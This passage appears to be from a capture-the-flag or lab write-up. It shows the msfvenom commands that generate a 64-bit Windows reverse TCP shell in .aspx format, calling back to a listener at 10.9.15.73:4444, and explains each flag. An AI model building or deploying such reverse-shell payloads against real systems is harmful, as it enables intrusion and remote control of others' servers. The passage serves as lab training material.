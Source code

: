 <div><p align="center"><img  src="./img/wappalyzer.png" /></div>

Before trying to develop a reverse shell in `.aspx` format, I thought of using `msfvenom` to make my job easier. 

```
$ msfvenom -l payloads | grep windows | grep reverse
```

<div><p align="center"><img  src="./img/msfvenom.png" /></div>

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.15.73 LPORT=4444 -f aspx > reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3672 bytes

```
* `-p` specifies the payload to be generated by `msfvenom`. In this case, `windows/x64/shell/reverse_tcp` is the payload that creates a reverse TCP shell for 64-bit Windows systems.
* `LHOST` stands for "Listening Host" and is used to specify the IP address of the host where the listener will be running.
* `LPORT` stands for "Listening Port" and is used to specify the port number on which the listener will be listening for incoming connections. 
* `-f` specifies the output format for the generated payload.
